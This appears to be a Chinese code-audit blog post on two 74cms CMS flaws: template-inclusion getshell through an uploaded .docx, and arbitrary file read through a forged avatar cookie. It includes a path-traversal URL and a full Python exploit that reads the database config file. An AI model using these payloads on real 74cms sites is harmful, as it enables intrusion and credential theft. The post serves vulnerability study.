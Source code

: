 ```yaml
---
title: 74cms 漏洞分析
url: 386.html
id: 386
categories:
  - php
  - 代码审计
date: 2018-06-06 17:56:04
tags:
---
```


# 74cms v4.0-v4.1 前台getshell
参考[文章](http://0day5.com/archives/4257/) 漏洞发生在`\Application\Home\Controller\MController.class.php`中 代码如下
```php
    	public function index(){
    		if(!I('get.org','','trim') && C('PLATFORM') == 'mobile' && $this->apply['Mobile']){
                redirect(build_mobile_url());
    		}
            $type = I('get.type','android','trim');
            $android_download_url = C('qscms_android_download')?C('qscms_android_download'):'http://demo2.7yun.com/phone/apk/74cms.apk';
            $ios_download_url = C('qscms_ios_download')?C('qscms_ios_download'):'';
            $this->assign('android_download_url',$android_download_url);
            $this->assign('ios_download_url',$ios_download_url);
            $this->assign('type',$type);
            $this->display('M/'.$type);
        }
```
可以看到在获取了用户传递进来的`$type`变量之后，直接带入`display`函数，`display`函数在thinkphp中一般是用来显示模板html文件。 
不妨跟进看一下 `ThinkPHP\Library\Think\Controller.class.php`中的display函数仅仅调用了下view中的函数
```php
        protected function display($templateFile='',$charset='',$contentType='',$content='',$prefix='') {
            $this->view->display($templateFile,$charset,$contentType,$content,$prefix);
        }
```
再次跟进
```php
        public function display($templateFile='',$charset='',$contentType='',$content='',$prefix='') {
            G('viewStartTime');
            // 视图开始标签
            Hook::listen('view_begin',$templateFile);
            // 解析并获取模板内容
            $content = $this->fetch($templateFile,$content,$prefix);
            // 输出模板内容
            $this->render($content,$charset,$contentType);
            // 视图结束标签
            Hook::listen('view_end');
        }
```
主要就是获取模板内容，也就是之前display传入的参数，然后解析并输出。  
然而thinkphp试允许用户在template中使用php代码的 
![](http://blog.kingkk.com/wp-content/uploads/2018/06/55e1cd211612f28da7ae0b055d18dc37.png) 
然后就是要找一个可以上传文件的点，图片上传会被进行处理，这里我们选择上传docx个人简历 
![](http://blog.kingkk.com/wp-content/uploads/2018/06/73453cfc4d75bfb2699a0e2cfe91a9bb.png) 
返回的json中能看到文件的路径 
![](http://blog.kingkk.com/wp-content/uploads/2018/06/0a550deee4cbe9ce70b6a9ed8c3277cd.png) 
这样就可以包含这个伪造的template 
index.php?m=&c=M&a=index&type=../data/upload/word_resume/1806/06/5b17a62407bac.docx 
![](http://blog.kingkk.com/wp-content/uploads/2018/06/3055c0c1dbab38eb9083f302779005b1.png)  



# 74cms v4.2.3 任意文件读取


漏洞发生在`\Application\Home\Controller\MembersController.class.php`文件中，219行的位置处
```php
                if('bind' == I('post.org','','trim') && cookie('members_bind_info')){
                    $user_bind_info = object_to_array(cookie('members_bind_info'));
                    $user_bind_info['uid'] = $data['uid'];
                    $oauth = new \Common\qscmslib\oauth($user_bind_info['type']);
                    $oauth->bindUser($user_bind_info);
                    $this->_save_avatar($user_bind_info['temp_avatar'],$data['uid']);//临时头像转换
                    cookie('members_bind_info', NULL);//清理绑定COOKIE
                }
```
这里能看到程序接受了post传递过来的org参数，以及cookie中的members\_bind\_info数组 
然后实例化了一个oauth类，然后生成了个临时头像，查看一下\_save\_avatar的代码 
大约在571行处
```php
        protected function _save_avatar($avatar,$uid){
            if(!$avatar) return false;
            $path = C('qscms_attach_path').'avatar/temp/'.$avatar;
            $image = new \Common\ORG\ThinkImage();
            $date = date('ym/d/');
            $save_avatar=C('qscms_attach_path').'avatar/'.$date;//图片存储路径
            if(!is_dir($save_avatar)) mkdir($save_avatar,0777,true);
            $savePicName = md5($uid.time()).".jpg";
            $filename = $save_avatar.$savePicName;
            $size = explode(',',C('qscms_avatar_size'));
            copy($path, $filename);
            foreach ($size as $val) {
                $image->open($path)->thumb($val,$val,3)->save("{$filename}._{$val}x{$val}.jpg");
            }
            M('Members')->where(array('uid'=>$uid))->setfield('avatars',$date.$savePicName);
            @unlink($path);
        }
```
这里能看到将传入的第一个参数进行路径的拼接，然后直接将内容存入一个.jpg的图片文件中 在之前的代码中能看到
```php
…
$user_bind_info = object_to_array(cookie('members_bind_info'));
……
$this->_save_avatar($user_bind_info['temp_avatar'],$data['uid']);
```
传入的第一个参数是直接从cookie中获取的，而cookie恰巧也是我们能够伪造的。就可以利用相对路径进行路径跳转。 
图片也是可以直接进行下载的，从而引发任意文件读取。 

接下来看下需要达成任意文件读取所需要的一些条件

*   ajax==1,reg_type==2,utype==2,ucenter==bind,org=bind  (post中的数据)
*   members\_bind\_info\[type\] == qq/ sina / tabao
*   members\_bind\_info\[username\] 不能重复
*   members\_bind\_info\[uid\] 需要设置一个未被注册的id
*   members\_bind\_info\[temp_avatar\]则是要读取的文件路径

最后就是要知道被移动的文件位置。

data\\upload\\avatar\\1806\\11\\1db0ab21cfccf510759cf4b2ec60ba7c.jpg

可以看到是在upload下一个时间的文件夹，文件名则是一串哈希值，哈希的生成规律如下
```php
    $savePicName = md5($uid.time()).".jpg";
```
由uid和时间time以同进行哈希得到的值。最后exp如下
```python
    #encoding=utf8
    import time, random, string, hashlib 
    import requests
    
    def post_exp():
    	url = root_url+'/index.php'
    	username = ''.join(random.sample(string.ascii_letters, 6))
    	uid = random.randint(100,999999)
    	params = {'m':'','c':'members','a':'register'}
    	data = {'ajax':'1','org':'bind','reg_type':'2','utype':'2','ucenter':'bind'}
    	cookies = {	'members_bind_info[temp_avatar]':'../../../../Application/Common/Conf/db.php',
    				'members_bind_info[type]':'qq',
    				'members_uc_info[password]':username,
    				'members_uc_info[uid]':str(uid),
    				'members_uc_info[username]':username
    				}
    	r = requests.post(url,params=params,data=data,cookies=cookies)
    	pic_time = int(time.time())
    	return uid,pic_time
    
    def get_picname(uid,pic_time):
    	localtime = time.localtime(pic_time)
    	unhash_name = str(uid)+str(pic_time)
    	hash_name = hashlib.md5(unhash_name.encode('utf8')).hexdigest()+'.jpg'
    	pic_url = root_url+'/data/upload/avatar/{}{}/{}/'.format(str(localtime[0])[2:],str(localtime[1]).zfill(2),localtime[2])+hash_name
    	return pic_url
    
    def main():	
    	global root_url
    	root_url = 'http://localhost/74cms4.2.3'
    
    	uid,pic_time = post_exp()
    	for pt in range(pic_time-10,pic_time+10):
    		pic_url = get_picname(uid,pt)
    		r = requests.get(pic_url)
    		if r.status_code == 200:
    			print("Vulnerable!")
    			print(r.text)
    			exit()
    
    		print(pt,pic_url,r)
    	print("may be unvulnerable")
    		
    
    if __name__ == '__main__':
    	main()
```
成功读取到db.php配置文件 ![](http://blog.kingkk.com/wp-content/uploads/2018/06/eb2555624262d4b37878019f9183efb5.png)